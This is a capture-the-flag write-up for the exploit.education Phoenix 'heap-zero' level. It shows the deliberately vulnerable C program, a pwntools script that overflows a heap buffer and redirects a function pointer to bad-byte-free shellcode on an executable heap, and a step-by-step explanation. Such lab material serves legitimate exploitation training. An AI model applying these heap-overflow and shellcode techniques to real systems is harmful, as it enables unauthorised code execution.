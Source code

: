 # Heap Zero

## Code
```c
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control, and execute the winner function?
 *
 * Why do C programmers make good Buddhists?
 * Because they're not object orientated.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

## Payload

```python
#!/usr/bin/env python
from pwn import *

SLED_LENGTH = 15    # Arbitrary length of a sled
BUFFER_LEN = 80 # Space of buffer until we overflow target addr
WINNER_FUNC = 0x400abd    # Addr of winner() -- has bad chars so we need to calculate
BEG_HEAP = 0x7ffff7ef6010   # Addr of the start of heap segment we control
                            # we will jump to this 

# * Build shellcode to load partial addr of winner() then add value to it to avoid bad bytes
# * We can't use "mov eax" either because that contains null-bytes which will be removed by us later
# * build the payload using "mov ax" and doing math on the registers to get the desired address

# xor eax, eax
# mov ax, 0x40
# shl eax, 0x10
# mov ax, 0x0ace
# jmp eax

# print(f"Subtracted 0xf0 from winner() addr: {(safe_winner)}")
sc = asm('xor eax, eax')
sc += asm('mov al, 0x40')
sc += asm('shl eax, 0x10')
sc += asm('mov ax, 0x0abd')
sc += asm('jmp eax')
print(disasm(sc))

payload = asm('nop') * SLED_LENGTH
payload += sc
payload += b'A' * (BUFFER_LEN - len(sc) - SLED_LENGTH)
payload += p64(BEG_HEAP)

# print(pwnlib.encoders.encoder.encode(payload, b'\x00', force=True))
# print(f"Payload before null removal: {payload}")

if b"\x00" in payload:
    print("[+] Removing null bytes!")
    payload = payload.replace(b"\x00", b"")
else:
    print("[+] No null bytes were removed")

# print(f"Payload after null removal: {payload}")
# print(len(payload))
# with open("./heap-zero-payload", "wb") as fd:
#     fd.write(payload)

p = process(["/opt/phoenix/amd64/heap-zero", payload])
print(p.recvall())
```

## Solution

- Based on the code above, the path to the goal of calling the function `winner()` is clear. There are two allocations that happen in the `main()` function for `d` and `f`. `d` becomes a pointer to a struct `data` which contains a buffer for a name which is provided by us via `argv[1]`. `f` is becomes a pointer to a struct `fp` which contains a void pointer which is later used as a function pointer. After the allocations, there is our wonderful insecure `strcpy()` function that copies our input from `argv[1]` into the `name` field of the `data` struct which is pointed to by `d`. This means that our string will be stored on the heap right before the `fp` struct which is pointed to by `f`. This means we can overflow the heap chunks allocated for `d->name` into the `f->fp` which should give us control of program execution. Let's try! 

- After the two calls to `malloc()` we can see that we have space given to us on the heap:

![](Pasted%20image%2020210413002114.png)

- This image above shows the space allocated for the `data` and `fp` structs. Halfway through you can see the address of the `nowinner()` function stored on the heap in the `fp` struct which `f` points to. We can now try giving some large input and see what happens.

![](Pasted%20image%2020210413002327.png)

- Here we gave 80 bytes of input in the form of `A`'s. We can clearly see that we have smashed through our chunk of the heap and overwritten the chunk header information that existed previously. We also added an extra byte `\xbd` which should overflow the lowest byte of the function pointer address and execute the `winner()` function. Unfortunately this does not happen for some reason. My suspicion lies with the byte `0x0a` which is a newline character. If you refer to the first screenshot, you can see that this byte exists in the value of `f->fp`.

- I am dumb and forgot that `0x0a` will stop `strcpy()` from continuing to copy bytes from source to the destination. This means that when we try to corrupt the address `strcpy()` will stop copying, and copy in a null byte which messes with any attempts to directly modify the value that `f->fp` contains. Luckily, the heap is executable so we can put shellcode there and return to it! 

![](Pasted%20image%2020210413004506.png)

- Although we can execute shellcode, we must take care to not have any _bad characters_ like null bytes or newlines which would stop `strcpy()` from copying all of our payload. Another thing we must keep in mind is that we are trying to call the function `winner()`. We can do this by pointing the function pointer into the heap segment we control and putting shellcode to jump to the `winner()` function. However, remember that `winner()` has a bad byte `0x0a` in its address. This means we will have to craft the address of `winner()` using some math to get around this bad char in our payload.

- To get around the back characters we can use the following shellcode:

![](Pasted%20image%2020210414115343.png)

- As you can see, the assembly code builds our target address by loading it in and shifting it around. We can't use `move eax` because this instruction will have null bytes which are not allowed as input and will be removed by our exploit script thus breaking the opcode. This method allows us to still exploit the target and avoid bad characters. Finally, you can see in the image above that `EIP` contains our target address which is the `winner()` function!

- All we do now is write the code in `heap0-exploit.py` and execute it to beat the level!

![](Pasted%20image%2020210414115759.png)